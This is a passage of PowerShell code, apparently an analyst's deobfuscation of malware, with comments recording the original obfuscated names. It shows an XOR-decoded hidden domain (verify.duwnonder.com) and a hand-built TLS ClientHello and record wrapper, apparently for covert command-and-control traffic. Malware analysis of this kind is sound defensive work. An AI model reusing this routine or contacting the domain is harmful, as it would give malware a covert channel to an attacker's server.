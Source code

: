 ```powershell
    $OutputLengthBytes = [System.BitConverter]::GetBytes([int16]$EncryptedOutput.Length) # Original: $B88BBBBBB888888B
    [Array]::Reverse($OutputLengthBytes)
    return (0x17, 0x03, 0x03) + $OutputLengthBytes + $EncryptedOutput
}

# Original: function llIIlllllIIIlllI
function BuildTlsClientHello {
    # Original: $B88B888B8888B888
    $DecryptedDomain = (DecryptXorString -EncryptedIntArray @(168, 187, 172, 183, 184, 167, 240, 186, 171, 169, 176, 177, 176, 186, 187, 172, 240, 189, 177, 179) -XorKey 222)
	# creates: verify.duwnonder.com
    # Original: $BBBB8B8BB888B88B
    $DomainBytes = [System.Text.Encoding]::ASCII.GetBytes($DecryptedDomain)
    # Original: $BB88BBBB88B8888B
    $DomainLengthBytes = [byte[]] ([BitConverter]::GetBytes([UInt16]$DomainBytes.Length))
    [Array]::Reverse($DomainLengthBytes)

    # Original: $B88888B888888BB8
    $ServerNameExtension = @(0x00) + $DomainLengthBytes + $DomainBytes
    # Original: $BB8BBBB8B8888BB8
    $ServerNameExtensionLength = [byte[]] ([BitConverter]::GetBytes([UInt16]$ServerNameExtension.Length))
    [Array]::Reverse($ServerNameExtensionLength)

    # Original: $B8888B88BB888B88
    $TlsExtensionData = $ServerNameExtensionLength + $ServerNameExtension
    # Original: $B888B888BBB8B8BB
    $TlsExtensionDataLength = [byte[]] ([BitConverter]::GetBytes([UInt16]$TlsExtensionData.Length))
    [Array]::Reverse($TlsExtensionDataLength)

    # Original: $B8BB88BBBB8B88B8
    $ClientHelloExtensions = @(0x00, 0x00) + $TlsExtensionDataLength + $TlsExtensionData
    # Original: $BBBB88B8BB88B88B - This seems to be the main bulk of the Client Hello bytes
    $ClientHelloFixedBytes = @(0x00, 0x0b, 0x00, 0x04, 0x03, 0x00, 0x01, 0x02, 0x00, 0x0a, 0x00, 0x16, 0x00, 0x14, 0x00, 0x1d, 0x00, 0x17, 0x00, 0x1e, 0x00, 0x19, 0x00, 0x18, 0x01, 0x00, 0x01, 0x01, 0x01, 0x02, 0x01, 0x03, 0x01, 0x04, 0x00, 0x23, 0x00, 0x00, 0x00, 0x16, 0x00, 0x00, 0x00, 0x17, 0x00, 0x00, 0x00, 0x0d, 0x00, 0x1e, 0x00, 0x1c, 0x04, 0x03, 0x05, 0x03, 0x06, 0x03, 0x08, 0x07, 0x08, 0x08, 0x08, 0x09, 0x08, 0x0a, 0x08, 0x0b, 0x08, 0x04, 0x08, 0x05, 0x08, 0x06, 0x04, 0x01, 0x05, 0x01, 0x06, 0x01, 0x00, 0x2b, 0x00, 0x03, 0x02, 0x03, 0x04, 0x00, 0x2d, 0x00, 0x02, 0x01, 0x01, 0x00, 0x33, 0x00, 0x26, 0x00, 0x24, 0x00, 0x1d, 0x00, 0x20, 0x35, 0x80, 0x72, 0xd6, 0x36, 0x58, 0x80, 0xd1, 0xae, 0xea, 0x32, 0x9a, 0xdf, 0x91, 0x21, 0x38, 0x38, 0x51, 0xed, 0x21, 0xa2, 0x8e, 0x3b, 0x75, 0xe9, 0x65, 0xd0, 0xd2, 0xcd, 0x16, 0x62, 0x54)
    # Original: $BB88BB8BB88BB88B
    $FullClientHello = $ClientHelloExtensions + $ClientHelloFixedBytes
    # Original: $BBBB8B88888888B8
    $ClientHelloLengthBytes = [byte[]] ([BitConverter]::GetBytes([UInt16]$FullClientHello.Length))
    [Array]::Reverse($ClientHelloLengthBytes)

    # Original: $B8888BBB888B8888 - this looks like a TLS Handshake Header for ClientHello
    $TlsHandshakeHeader = @(0x03, 0x03, 0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f, 0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17, 0x18, 0x19, 0x1a, 0x1b, 0x1c, 0x1d, 0x1e, 0x1f, 0x20, 0xe0, 0xe1, 0xe2, 0xe3, 0xe4, 0xe5, 0xe6, 0xe7, 0xe8, 0xe9, 0xea, 0xeb, 0xec, 0xed, 0xee, 0xef, 0xf0, 0xf1, 0xf2, 0xf3, 0xf4, 0xf5, 0xf6, 0xf7, 0xf8, 0xf9, 0xfa, 0xfb, 0xfc, 0xfd, 0xfe, 0xff, 0x00, 0x08, 0x13, 0x02, 0x13, 0x03, 0x13, 0x01, 0x00, 0xff, 0x01, 0x00)
    # Original: $BB8B8BBBB88B8B8B
    $ClientHelloPacket = $TlsHandshakeHeader + $ClientHelloLengthBytes + $FullClientHello
    # Original: $BB8BBB88B8B8B888
    $OverallPacketLengthBytes = [byte[]] ([BitConverter]::GetBytes($ClientHelloPacket.Length))
    [Array]::Reverse($OverallPacketLengthBytes)

    # Original: $BBB88BBB888B8B8B
```